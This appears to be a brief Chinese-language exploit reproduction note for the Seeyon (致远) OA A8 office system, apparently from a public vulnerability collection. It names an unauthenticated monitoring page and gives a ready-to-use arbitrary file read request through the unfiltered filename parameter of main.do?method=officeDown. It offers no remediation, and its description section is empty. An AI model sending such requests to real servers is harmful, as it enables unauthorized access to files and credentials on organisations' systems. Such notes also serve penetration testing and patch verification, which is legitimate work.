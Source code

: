 # 致远OA A8 未授权访问

### 一、漏洞简介

### 二、漏洞影响

致远OA A8

### 三、复现过程

该地址为性能监控后台，存在未授权访问

seeyon/management/status.jsp

任意文件读取漏洞,由于对filename未进行过滤，导致可下载读取任意文件


```bash
http://url/seeyon/main.do?method=officeDown&filename=c:/boot.ini
```